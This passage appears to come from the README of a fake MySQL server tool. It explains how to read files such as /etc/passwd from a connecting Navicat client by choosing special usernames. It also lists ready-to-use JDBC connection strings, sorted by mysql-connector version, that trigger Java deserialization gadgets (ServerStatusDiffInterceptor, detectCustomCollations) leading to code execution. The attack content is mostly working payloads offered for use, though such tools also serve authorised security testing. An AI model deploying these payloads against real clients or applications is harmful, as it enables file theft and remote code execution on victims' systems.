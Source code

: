 3. About authentication：The default authentication plugin is **mysql_native_password**,But due to the bugs of protocol implementation，it will  connect failed with Navicat client.

    At this time, append **_clear** to the username for switch the  authentication plugin to **mysql_clear_password**, and the Navicat client will connect to fake server successfull and get the file content.

    - **e.g.：** fileread\_/etc/passwd_clear

## JDBC Connection Strings

I sorted JDBC Connection Strings out  while writing the analysis：https://www.anquanke.com/post/id/203086
Please refer to the above description to modify the username.

### ServerStatusDiffInterceptor Attribute Exploit:

- **8.x:** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **6.x(Attribute name is different):** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.11 and above 5.x version（package name with out "cj"）:**` jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_JRE8u20_calc`

- **5.1.10 and below 5.1.X version：** Same as above， But you need to execute arbitrary query after connecting。

- **5.0.x:** No`ServerStatusDiffInterceptor`Attribute yet.┓( ´∀` )┏

### detectCustomCollations Attribute Exploit：

- **5.1.41 and above:** unavailable

- **5.1.29-5.1.40:** `jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.28-5.1.19：** `jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&user=yso_JRE8u20_calc`

- **5.1.x versions below 5.1.18：** unavailable

- **Version 5.0.x is not available** 

## Some Examples

Navicat File Reading Exploit（username is win_ini_clear）

![image-20200414150112426](README.assets/image-20200414150112426.png)

JDK 1.8.20+mysql-connector-java 8.0.14 Deserialization Exploit，(username is yso_JRE8u20_calc)

![image-20200414150417471](README.assets/image-20200414150417471.png)

## Some pits in coding
